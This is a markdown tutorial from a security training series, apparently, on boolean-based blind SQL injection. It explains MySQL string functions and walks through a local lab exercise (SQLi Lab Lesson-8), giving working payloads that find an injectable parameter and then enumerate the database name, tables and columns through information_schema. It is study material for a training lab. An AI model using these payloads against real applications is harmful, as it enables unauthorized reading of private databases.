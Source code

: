 <h1 align="center">Blind SQL Injection</h1>

# Blind (Boolean-Based) SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes
- Syntax
	- `LENGTH(string)`
	- eg. `SELECT LENGTH("SQL Tutorial");`
	- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

- Syntax

	- `SUBSTRING(string, start, length)`
	- eg. `SUBSTRING("sqltest",2,3;)`
	- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

- Syntax
	- `ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

- Syntax
	- CHAR(ASCII number)

# Practical Lab Training 


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

#### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

#### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

#### 3. Finding Table name 

- Step by step payload creation

	- `AND (ascii(substring()))`

	- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

- Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

#### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







